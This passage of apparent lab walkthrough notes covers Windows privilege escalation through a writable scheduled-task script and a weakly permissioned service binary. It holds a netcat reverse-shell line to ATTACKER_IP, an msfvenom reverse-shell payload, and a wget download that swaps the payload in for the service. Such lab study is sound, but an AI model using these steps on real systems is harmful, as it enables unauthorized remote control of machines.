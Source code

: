 If BUILTIN\\Users group has full access (F), we can modify `schtask.bat` to include a reverseshell.

```powershell
echo nc.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

## Services

Get info for apphostsvc service
```powershell
C:\> sc qc apphostsvc 
[SC] QueryServiceConfig SUCCESS 

	SERVICE_NAME: apphostsvc 
	TYPE : 20 WIN32_SHARE_PROCESS 
	START_TYPE : 2 AUTO_START 
	ERROR_CONTROL : 1 NORMAL 
	BINARY_PATH_NAME : C:\Windows\system32\svchost.exe -k apphost 
	LOAD_ORDER_GROUP : 
	TAG : 0 
	DISPLAY_NAME : Application Host Helper Service 
	DEPENDENCIES : 
	SERVICE_START_NAME : localSystem
```

Get info for WindowsScheduler :
```powershell
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```

Getting permissions : 
```powershell
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
    NT AUTHORITY\SYSTEM:(I)(F)
    BUILTIN\Administrators:(I)(F)
    BUILTIN\Users:(I)(RX)
    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
    APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
```

`Everyone` group has Modify (M) permissions so we can modify `WService.exe` 
```bash
# ATTACKER
# Generate reverse shell payload using metasploit
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

python3 -m http.server

# Victim
C:\> cd C:\PROGRA~2\SYSTEM~1\
C:\> wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
```